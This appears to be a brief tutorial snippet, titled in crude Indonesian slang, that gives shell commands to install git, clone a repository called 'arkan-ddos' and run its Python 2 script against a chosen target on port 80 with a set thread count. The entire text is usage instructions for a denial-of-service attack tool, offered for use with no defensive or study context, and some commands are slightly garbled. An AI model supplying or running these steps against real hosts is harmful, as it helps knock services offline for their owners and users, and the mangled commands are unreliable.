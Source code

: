 #.  Tutor jancok
$.pkg install git   

$ git clone https://github.com/deah/arkan-ddos

$ cd arkan-ddos

Python2 arkan -DDOS.py -s< name> -p80 -t123
